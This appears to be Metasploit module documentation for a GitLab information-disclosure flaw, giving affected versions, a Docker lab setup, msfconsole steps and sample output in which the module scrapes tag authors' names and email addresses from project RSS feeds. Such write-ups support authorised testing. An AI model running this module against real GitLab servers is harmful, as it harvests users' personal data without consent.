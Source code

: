 ## Vulnerable Application

Information disclosure affecting all versions of GitLab
before 16.6.6, 16.7 prior to 16.7.4, and 16.8 prior to 16.8.1
by sending a GET request to the project URI and appending "-/tags"

## Verification Steps

### Docker installation instructions can be found here:

https://docs.gitlab.com/ee/install/docker.html

Once installed, create a project. Once the projecte is
created, add a new tag by expanding the Code menu item
on the left, then selecting Tags. Then click on the 
New Tag button in the top right corner.


1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `set RHOSTS [IP]`
1. Do: `run`
1. You should receive output with user names and email addresses assocaited with project tags

## Options
By default the `TARGETPROJECT` option is empty. This will gather information for ALL PUBLICLY ACCESSIBLE PROJECTS. If you
know the specific project you would like to target, you would need to set that here.


## Scenarios
### Scrape all Workspaces/Projects
```
msf6 > use auxiliary/gather/gitlab_tags_rss_info_disclosure 
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > run
[*] Running module against 127.0.0.1

[+] [2024.02.09-11:18:23] Scraping ALL projects...
[*] [2024.02.09-11:18:23] Check RSS tags feed for: Workspace1/Project1
[+] [2024.02.09-11:18:23] Output saved to /root/.msf4/loot/20240209111823_default_127.0.0.1_gitlab.RSS.info__010524.xml
[+] [2024.02.09-11:18:23] name: john doe
[+] [2024.02.09-11:18:23] e-mail: johndoe@example.com
[*] [2024.02.09-11:18:23] Check RSS tags feed for: Workspace1/Project2
[+] [2024.02.09-11:18:23] Output saved to /root/.msf4/loot/20240209111823_default_127.0.0.1_gitlab.RSS.info__822263.xml
[+] [2024.02.09-11:18:23] name: janedoe
[+] [2024.02.09-11:18:23] e-mail: janedoe@example.com
[*] [2024.02.09-11:18:23] Check RSS tags feed for: ws2/proj1
[-] [2024.02.09-11:18:23] No tags or authors found
[*] [2024.02.09-11:18:23] Check RSS tags feed for: ws3/proj1
[-] [2024.02.09-11:18:23] No tags or authors found
[*] [2024.02.09-11:18:23] Check RSS tags feed for: ws3/proj2
[-] [2024.02.09-11:18:23] No tags or authors found
[*] Auxiliary module execution completed
```
### Specify Project
```
msf6 > use auxiliary/gather/gitlab_tags_rss_info_disclosure 
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > set RHOSTS 127.0.0.1     
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > set TARGETPROJECT Workspace1/Project1
TARGETPROJECT => Workspace1/Project1
msf6 auxiliary(gather/gitlab_tags_rss_info_disclosure) > run
[*] Running module against 127.0.0.1

[*] [2024.02.09-11:44:43] Check RSS tags feed for: Workspace1/Project1
[+] [2024.02.09-11:44:43] Output saved to /root/.msf4/loot/20240209114443_default_127.0.0.1_gitlab.RSS.info__390983.xml
[+] [2024.02.09-11:44:43] name: janedoe
[+] [2024.02.09-11:44:43] e-mail: janedoe@example.com
[*] Auxiliary module execution completed
```
